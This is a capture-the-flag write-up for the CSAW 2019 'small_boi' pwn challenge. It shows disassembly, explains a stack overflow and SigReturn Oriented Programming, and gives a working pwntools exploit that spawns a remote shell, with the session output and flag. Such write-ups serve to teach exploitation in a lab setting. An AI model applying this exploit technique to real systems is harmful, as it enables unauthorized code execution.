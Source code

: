 ```yaml
---
layout: post
title:  "CSAW Qualifiers 2019: small_boi"
date:   2019-09-16 04:00:00 +0800
categories: pwn
tags: CSAW-Qualifiers-2019
---
```


Very tiny binary. I used SigReturn Oriented Programming (SROP) to exploit it.

### Challenge

* **Category:** pwn
* **Points:** 100
* **Solves:** ~150

>you were a baby boi earlier, can you be a small boi now?
>
>nc pwn.chal.csaw.io 1002

### Solution

We get given a very tiny binary with only three functions. We have `start` which calls `sub_40018C`:
```c
public start
start proc near
; __unwind {
push    rbp
mov     rbp, rsp
mov     eax, 0
call    sub_40018C
xor     rax, rdi
mov     rax, 3Ch ; '<'
syscall                 ; LINUX - sys_exit
nop
pop     rbp
retn
; } // starts at 4001AD
start endp
```

We have `sub_40018C` which simply does a `read` syscall and reads 0x200 bytes of input into a stack buffer (giving us a buffer overflow):
```c
sub_40018C proc near

buf= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
lea     rax, [rbp+buf]
mov     rsi, rax        ; buf
xor     rax, rax
xor     rdi, rdi        ; fd
mov     rdx, 200h       ; count
syscall                 ; LINUX - sys_read
mov     eax, 0
pop     rbp
retn
; } // starts at 40018C
sub_40018C endp
```

And finally we have `sub_40017C` which has a `rt_sigreturn` syscall, hinting at the fact that we will need to do SigReturn Oriented Programming (SROP):
```c
sub_40017C proc near
; __unwind {
push    rbp
mov     rbp, rsp
mov     eax, 0Fh
syscall                 ; LINUX - sys_rt_sigreturn
nop
pop     rbp
retn
; } // starts at 40017C
sub_40017C endp
```

The way the `rt_sigreturn` syscall works is by context-switching into a completely new stack frame which is decided by a `sigcontext` structure. In the case of SROP, we forge a `sigcontext` structure on the stack and make the `rt_sigreturn` syscall use this forged structure to perform any syscall we want.

At the end of the day we want to perform an `execve` syscall with `/bin/sh` as its argument. The binary also conveniently has the string `'/bin/sh'` at address `0x4001ca`. With pwntools, this exploit is very easy.

Using gdb, first find the offset for the buffer overflow (in this case, 40 characters). Then you want to jump to the `rt_sigreturn` syscall, which is essentially just `mov rax, 0xf` followed by `syscall`. Then you put a fake `sigcontext` structure onto the stack (pwntools calls this a `SigreturnFrame`), where you set `rax` to 59 (for `execve`), `rdi` to the address of the `/bin/sh` string, `rsi` and `rdx` both to 0, and `rip` to the `syscall` instruction.

the `rt_sigreturn` syscall will context switch using these values from the fake `sigcontext` structure, thus calling `execve` with `/bin/sh` and giving us a shell.
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

p = remote('pwn.chal.csaw.io', 1002)

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = 'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += str(frame)

p.send(payload)

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/csaw-2019-quals/pwn/small_boi$ ./exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 1002: Done
[*] Switching to interactive mode
$
$ ls
flag.txt  small_boi
$ cat flag.txt
flag{sigrop_pop_pop_pop}
$  
```

Flag: `flag{sigrop_pop_pop_pop}`
